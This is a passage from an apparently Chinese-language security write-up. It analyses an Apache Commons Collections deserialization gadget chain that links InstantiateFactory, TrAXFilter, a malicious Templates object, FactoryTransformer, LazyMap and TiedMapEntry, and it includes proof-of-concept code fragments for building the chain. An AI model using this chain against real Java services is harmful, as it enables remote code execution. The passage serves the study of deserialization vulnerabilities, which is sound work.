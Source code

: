 而在构造器里面又会默认调用这个方法

![image-20220428201538745](images/7.png)

只要让`iClassToInstantiate`参数是需要获取的类，`iParamTypes`是`new Class[]`数组（即对应的类），然后`iArgs`是构造器对应的参数，也就是我们的恶意类templates，对应POC的代码为

```
InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class,new Class[]{Templates.class},new Object[]{templates});
```

接下来还有另外一个类，调用了这个类的create方法，那就是FactoryTransformer类

![image-20220428201849396](images/8.png)

实例化的时候控制一下参数为InstantiateFactory类的实例化即可，至于transform的参数都不用管

这里都出现transform方法了，那就是熟悉的LazyMap登场的时间了

LazyMap#get

```
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

还是用LazyMap默认的修饰来实例化这个类，对应代码

```
Map innermap = new HashMap();
LazyMap outmap = (LazyMap) LazyMap.decorate(innermap,factoryTransformer);
```

剩下的就是CC5的内容了

也就是TiedMapEntry的getValue来调用LazyMap的get方法

![image-20220428202828054](images/9.png)

而且在这个类里面有一个toString可以调用getValue

![image-20220428202901330](images/10.png)

接下来调试着看看

# 断点调试

从BadAttributeValueExpException的readObject开始
